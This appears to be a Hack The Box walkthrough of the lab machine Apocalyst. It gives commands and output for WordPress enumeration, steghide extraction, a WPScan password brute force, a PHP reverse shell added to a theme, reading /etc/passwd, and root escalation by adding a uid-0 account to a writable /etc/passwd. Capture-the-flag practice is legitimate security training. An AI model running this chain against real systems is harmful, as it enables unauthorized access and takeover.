

# HTB - Apocalyst   10.10.10.46

- Linux apocalyst 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.04.2 LTS


- WPscan => user
- cewl + wfuzz => http://apocalyst.htb/Rightiousness/
- download image.jpg
- steghide image.jpg => list.txt
- WPScan bruteforce : user + list.txt => passwd
- log in wordpress
- Modify theme with php reverse shell => user
- cat .secret => user password
- /etc/passwd writable, add new account with uid=0


## Usefull
Tcp
- nmap -sC -sV -A  10.10.10.46
- nmap -sC -sV -A  10.10.10.46 -p- | tee nmap_all_tcp.txt
UDP
- nmap -sU -sV -A  10.10.10.46 | tee nmap_udp.txt
- snmpwalk -c public -v1  10.10.10.46
- snmpwalk -v 2c -c public  10.10.10.46
- snmpwalk -v2c -c public  10.10.10.46 1.3.6.1.2.1.4.34.1.3

HTTP
- http:// 10.10.10.46/robots.txt
- dirb http://apocalyst.htb
- /opt/gobuster/gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http:// 10.10.10.46  -l -x html,php,js,txt
- wkhtmltoimage url pngfile 

Bind : 53
- /etc/hosts
- dig axfr @ 10.10.10.46 cronos.htb

SMB : 
- enum4linux  10.10.10.46  
- enum4linux  10.10.10.46 -U 


## Nmap

```
# nmap -sC -sV -A  10.10.10.46 -p- | tee nmap_all_tcp.txt


22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
```


## http://10.10.10.46/
## http://apocalyst.htb/

Wordpress

## WPScan

=> user : falaraki


## cewl


```
cewl 10.10.10.46 > wordlist.txt
```

## wfuzz de directory avec wordlist

```
# wfuzz -c -z file,wordlist.txt --sc 200 http://10.10.10.46/FUZZ/ | tee wfuzz_wordlist.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.46/FUZZ/
Total requests: 471

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000015:  C=200     13 L	      17 W	    157 Ch	  "are"
000016:  C=200     13 L	      17 W	    157 Ch	  "revelation"
000019:  C=200     13 L	      17 W	    157 Ch	  "site"
000018:  C=200     13 L	      17 W	    157 Ch	  "Blog"
000020:  C=200     13 L	      17 W	    157 Ch	  "time"
000022:  C=200     13 L	      17 W	    157 Ch	  "header"
000023:  C=200     13 L	      17 W	    157 Ch	  "July"
000420:  C=200     13 L	      17 W	    157 Ch	  "pictures"
000422:  C=200     13 L	      17 W	    157 Ch	  "glorification"
000428:  C=200     13 L	      17 W	    157 Ch	  "dead"
000424:  C=200     13 L	      17 W	    157 Ch	  "given"

000425:  C=200     14 L	      20 W	    175 Ch	  "Rightiousness"

000434:  C=200     13 L	      17 W	    157 Ch	  "fires"
000435:  C=200     13 L	      17 W	    157 Ch	  "Gehinnom"
000436:  C=200     13 L	      17 W	    157 Ch	  "lake"
000430:  C=200     13 L	      17 W	    157 Ch	  "awaiting"

```
=> http://apocalyst.htb/Rightiousness/

## http://apocalyst.htb/Rightiousness/


## steghide

```
# steghide extract -sf image.jpg
Entrez la passphrase: 
�criture des donn�es extraites dans "list.txt".
```

## WPScan to brute force


```
# wpscan --url http://10.10.10.46 --passwords /root/htb/YoloToolbox/machines/htb/apocalyst/list.txt --usernames 'falaraki' --wp-content-dir /
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.3.1
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://10.10.10.46/
[+] Started: Sun Sep 22 01:50:35 2019
.....

[+] Enumerating All Plugins

[i] No plugins Found.

[+] Enumerating Config Backups
 Checking Config Backups - Time: 00:00:00 <========================================================================================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                                                               
Trying falaraki / Transclisiation Time: 00:00:16 <======================================================                          > (335 / 486) 68.93%  ETA: 00:00:08
[i] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation

Scan Aborted: You can't set the item's total value to less than the current progress.
```

=>  | Username: falaraki, Password: Transclisiation

## WP login

log as admin
Edit theme & add a reverse shell




# nc -lvp 4444


```
www-data@apocalyst:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@apocalyst:/$ 
www-data@apocalyst:/$ uname -a
Linux apocalyst 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@apocalyst:/$ # In reverse shell
www-data@apocalyst:/$ cat /etc/issue
IP: 
www-data@apocalyst:/$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
```


## Elevation

```
$ cat .secret
S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=
<ZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=' | base64 -d                   
Keep forgetting password so this will keep it safe!
Y0uAINtG37TiNgTH!sUzersP4ss
```


```
# ssh falaraki@10.10.10.46
The authenticity of host '10.10.10.46 (10.10.10.46)' can't be established.
ECDSA key fingerprint is SHA256:haGh7sn13yyJk8VPU6MVYAqxX3Bm2XP9YhF0pDnjcJA.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.46' (ECDSA) to the list of known hosts.
falaraki@10.10.10.46's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

120 packages can be updated.
61 updates are security updates.


Last login: Thu Jul 27 12:09:11 2017 from 10.0.2.15


$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1637 Jul 26  2017 /etc/passwd
falaraki@apocalyst:~$ 
falaraki@apocalyst:~$ 
falaraki@apocalyst:~$ 
falaraki@apocalyst:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
falaraki:x:1000:1000:Falaraki Rainiti,,,:/home/falaraki:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false

yolo:$1$YOLO$XnxyLaBvXkFvxMWUnk68p:0:0:root:/root:/bin/bash
```


```
# openssl passwd -1 -salt YOLO password
$1$YOLO$XnxyLaBvXkFvxMWUnk68p/
```
```
$ su - yolo
Password: 
root@apocalyst:~# 

root@apocalyst:~# cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXX
```